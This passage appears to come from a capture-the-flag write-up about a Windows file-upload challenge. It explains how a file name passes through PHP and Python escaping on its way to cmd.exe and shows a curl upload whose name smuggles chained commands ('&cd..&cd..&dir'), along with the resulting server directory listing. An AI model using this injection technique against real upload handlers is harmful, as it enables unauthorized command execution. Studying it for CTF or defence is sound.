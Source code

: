 So, as the next step, I tried to understand which characters are allowed in
the  
file name. Here is the list of various "sanitizers" on my way to cmd.exe:

* PHP/`basename()` - eats `/`, `\` and anything before.  
* PHP/`escapeshellarg()` - replaces `%`, `!` and `"` with spaces (` `); adds `"`  
around the string.  
* Python/`subprocess.list2cmdline()`: adds `"` around the argument if it  
contains ` ` or `\t`; adds backslash before `"`.  
* Windows filesystem: file creation fails if file name contains any of these:  
`<>:"/\|?*`. File is created on FS before its name goes into `cmd.exe`, so
this  
should not fail if we want command to be executed.

But how to construct anything useful if we are not even able to use spaces in  
our command? For example, how to execute `cd ..` to go upper in the directory  
tree? I tried to google this, hoping that there is some special command that  
could replace `cd ..`. Instead of finding special command, I learned that  
argument parsing for internal commands is working really weird in `cmd.exe`.  
Not only spaces and tabs, but also `,`, `;` and `=` may be used as an argument  
separators. It turned out that commands like `cd..` are working as expected  
even without any separator!

```  
$ curl -F 'file=@dicom_jpeg;filename=x&cd..&cd..&dir&x'
'http://silhouettes.balsnctf.com/'  
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file

Host type: AMD64-Windows  
Character encoding: CP1252  
Code page: 437 (OEM) / 1252 (ANSI)

External libraries used:  
- ZLIB, Version 1.2.11  
- IJG, Version 6b  27-Mar-1998 (modified)  
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file  
error: Missing parameter dcmfile-out  
Volume in drive C has no label.  
Volume Serial Number is C604-FB4A

Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI  
11/07/2007  08:00 AM            17,734 eula.1028.txt  
11/07/2007  08:00 AM            17,734 eula.1031.txt  
11/07/2007  08:00 AM            10,134 eula.1033.txt  
11/07/2007  08:00 AM            17,734 eula.1036.txt  
11/07/2007  08:00 AM            17,734 eula.1040.txt  
11/07/2007  08:00 AM               118 eula.1041.txt  
11/07/2007  08:00 AM            17,734 eula.1042.txt  
11/07/2007  08:00 AM            17,734 eula.2052.txt  
11/07/2007  08:00 AM            17,734 eula.3082.txt  
11/07/2007  08:00 AM             1,110 globdata.ini  
09/25/2019  12:45 PM    <DIR>          inetpub  
11/07/2007  08:03 AM           562,688 install.exe  
11/07/2007  08:00 AM               843 install.ini  
11/07/2007  08:03 AM            76,304 install.res.1028.dll  
11/07/2007  08:03 AM            96,272 install.res.1031.dll  
11/07/2007  08:03 AM            91,152 install.res.1033.dll  
11/07/2007  08:03 AM            97,296 install.res.1036.dll  
11/07/2007  08:03 AM            95,248 install.res.1040.dll  
```